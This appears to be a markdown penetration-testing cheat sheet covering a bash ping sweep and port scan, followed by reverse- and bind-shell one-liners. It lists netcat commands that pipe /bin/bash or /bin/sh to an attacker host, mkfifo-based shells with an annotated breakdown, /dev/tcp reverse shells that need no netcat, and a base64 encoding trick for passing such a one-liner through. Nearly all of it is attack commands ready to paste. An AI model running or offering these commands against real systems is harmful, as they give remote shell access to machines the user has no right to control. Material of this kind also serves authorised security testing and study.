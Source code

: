 ## Ping and Port Scanning - Ping Sweep
```
# Hosts
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

# Ports
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

## Shells
- Reverse:
  - **Atacker** LISTENER <--------- **Target**
  - [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Bind
  - **Atacker** LISTENER ---------> **Target**

- **Connect**
  - -u = UDP connection
  
```
nc $ATTACKER 1234 -e /bin/bash
nc DEST_IP DEST_PORT -c "/bin/bash 2>&1"
nc DEST_IP DEST_PORT | /bin/bash 2>&1 | nc DEST_IP DEST_PORT+1
mkfifo /tmp/f; nc $ATTACKER 1234 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $TARGET 1234 >/tmp/f
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l $TARGET 1234 > /tmp/f

1. rm -f /tmp/f = remove the file /tmp/f if exists (-f)
2. ; = sequential execution
3. mkfifo /tmp/f = create named pipe
4. cat /tmp/f | = concatenates the FIFO named pipe file 
5. | = connects stdout to stdin of the commands
6. /bin/bash -i 2>&1 | = specifiy the bash interactive (-i) + standard error data stream (2) $ standar output data stream (1) redirected to the next command
7. nc -l $TARGET 1234 > /tmp/f = send the result to nc, output sent to /tmp/f that uses bbash sehll waiting for the connection
```

- **No NC**:
```
bash &>/dev/tcp/DEST_IP/DEST_PORT <&1
bash -c "bash &>/dev/tcp/DEST_IP/DEST_PORT <&1"
bash -i >& /dev/tcp/DEST_IP/DEST_PORT 0>&1

# Encode to base64 for oneliner + decode
echo -n 'bash -c "bash -i >& /dev/tcp/ATTACKING_IP/ATTACKING_PORT 0>&1"' | base64
echo base64encoded== | base64 -d | sh/bash

# Try different shels /bin/bash | sh
``` 
